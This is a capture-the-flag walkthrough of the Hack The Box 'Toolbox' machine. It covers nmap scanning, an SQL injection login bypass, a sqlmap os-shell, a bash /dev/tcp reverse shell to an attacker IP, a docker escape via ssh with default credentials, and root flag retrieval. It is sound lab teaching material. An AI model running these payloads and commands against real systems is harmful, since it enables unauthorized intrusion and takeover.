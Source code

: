 # Hackthebox - Toolbox

- Windows

![toolbox](../.res/HTB-Toolbox.png)

- [Box on Hackthebox](https://app.hackthebox.com/machines/452)

## Nmap

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.38 ((Debian))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-03-12T00:02:14
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.07 seconds
```

- Let's add `admin.megalogistic.com` and `megalogistic.com` to our hosts file.

## FTP

- Anonymous FTP is allowed and we have on file on the target. Let's take it `curl --user anonymous:anonymous -o docker-toolbox.exe ftp://10.10.10.236/docker-toolbox.exe`

## Webserver

If we go to https://admin.megalogistic.com/ we have a login panel

![login panel](../.res/2023-03-11-19-19-38.png)

If we put a quote in the user field we can generate a sql error  

![sql error](../.res/2023-03-11-19-34-52.png)  

- It is using `pg_query` so it is postgres sql.
- Let's try to do the most common bypass authentication payload except we translate it in postgresql this does the trick `username='+or+1=1--&password=aaa`

![bypass login](../.res/2023-03-11-19-59-58.png)  

- In the browser it looks like this

![](../.res/2023-03-11-20-01-52.png)

If we google the "uplusion23" we find a github user https://github.com/uplusion23. if we have a look at his github page https://uplusion23.github.io/ we find his portfolio and then we can have a look at the admin panel on CodePen [here](https://codepen.io/uplusion23/pen/yzBbXj)

- We have a todo list and a list of users

![todo list](../.res/2023-03-11-20-11-58.png)  

## subdomain

![nslookup](../.res/2023-03-11-20-53-34.png)

![](../.res/2023-03-11-20-55-49.png)

## Shell as postgresql

If we use sqlmap we can get a shell on the target `sqlmap -r request -p username --os-shell`  
To get the request file we just need to right click in the burp request and select save item  

![save item](../.res/2023-03-18-20-37-08.png)
Here is the shell we get  
![os-shell](../.res/2023-03-18-20-38-37.png)
If we ls on hone we have a user named tony.  
When looking around a little we find the user flag `/var/lib/postgresql/user.txt`

- We also find an .ssh folder with a known_hosts file
- We can try to add our pu
- Something weird is that if we cat /etc/passwd we do not find the user tony we found in /home. However the folder tony belongs to root so our root user might be named tony
- Also this seems to be a docker instance.
- Let's get a reverse shell we set a listener `rlwrap nc -nlvp 1234` this way we will get a more verbose shell in case of errors
- then we launch this from our previous prompt `bash -c 'bash -i >& /dev/tcp/10.10.14.5/1234 0>&1'`
- uname -a gives `command standard output: 'Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux'` so we loopback to this boot2docker
- We know it uses this docker: https://github.com/boot2docker/boot2docker
- So If we want to escape docker we can ssh as docker to 172.17.0.1 `ssh docker@172.17.0.1` (we can check ifconfig for this)
- We get a shell this way (the users and pass are in the git above)
- The difficulty here is that we need to upgrade our shell and be quick because we loose the shell every few minutes.
- Here is how to upgrade our shell (thanks to my friend Brianlane for the support on this part)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
// Open a notepad to keep the info about term and rows and cols
// Background our nc / rlwrap nc connection
Ctrl - z 
// Get our current terminal  version and write it into our notepad
echo $TERM
tmux-256color
// Get our current terminal  dimensions
stty -a
// Write them down
rows 52; columns 166;
// Enable standard terminal commands
stty raw -echo;fg
//Reset the shell so we can configure it with our current settings
reset
//Enter the terminal info we noted earlier
Terminal type?
xterm-256color
stty rows 38 columns 190
```

- When we loose our shell and need to get it back we can repeat these steps just this way

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
// Background our nc / rlwrap nc connection
Ctrl - z 
// Enable standard terminal commands
stty raw -echo;fg
//Reset the shell so we can configure it with our current settings
reset
//Enter the terminal info we noted earlier
Terminal type?
xterm-256color
stty rows 38 columns 190
```

- And ssh again `ssh docker@172.17.0.1`

![docker](../.res/2023-03-25-19-09-23.png)

- If we `sudo -l` we can see that it allows to `sudo su` without having to enter any password.
- The flag is not in the root folder
- If we go back we find a c directory with a Users folder in it that looks a lot like a win file system
![docker](../.res/2023-03-25-19-45-31.png)
- If we go to Administrator/Desktop we can get the root flag  
![Administrator](../.res/2023-03-25-19-51-16.png)
